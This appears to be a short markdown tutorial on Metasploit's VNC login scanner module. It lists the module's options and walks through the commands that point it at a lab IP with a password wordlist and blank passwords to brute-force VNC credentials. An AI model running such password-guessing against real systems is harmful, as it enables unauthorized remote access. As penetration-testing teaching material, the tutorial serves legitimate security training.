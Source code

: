 
## 📖 Getting Module Info
Always check what a module does:
``` bash
use auxiliary/scanner/vnc/vnc_login
info
```
Output (important parts):
- **Name**: VNC Authentication Scanner  
- **Rank**: Normal  
- **Purpose**: Tests VNC servers for login credentials  
- **Protocols Supported**: RFB 3.3, 3.7, 3.8, 4.001  
- **Reference**: CVE-1999-0506  

---

## ⚙️ Basic Options of `vnc_login`

| Option            | Default Value | Required | Description |
|-------------------|--------------|----------|-------------|
| BLANK_PASSWORDS   | false        | no       | Try blank passwords |
| BRUTEFORCE_SPEED  | 5            | yes      | Speed (0 = slow, 5 = fast) |
| PASS_FILE         | wordlist.txt | no       | Password list to try |
| USER_FILE         | none         | no       | Usernames list |
| RHOSTS            | (set target) | yes      | Target IP(s) |
| RPORT             | 5900         | yes      | VNC port |
| STOP_ON_SUCCESS   | false        | no       | Stop if valid creds found |
| THREADS           | 1            | yes      | Number of threads |

---

## ▶️ Example Usage

1. Select the module:
``` bash
use auxiliary/scanner/vnc/vnc_login
```
2. Set the target:
``` bash
set RHOSTS 10.10.12.229
```
3. Set wordlist:
``` bash
set PASS_FILE /usr/share/wordlists/vnc_passwords.txt
```
4. (Optional) Try blank passwords:
``` bash
set BLANK_PASSWORDS true
```
5. Run:
``` bash
run
```
👉 If successful, you’ll see:
[+] 10.10.12.229:5900 - Login Successful: user:password
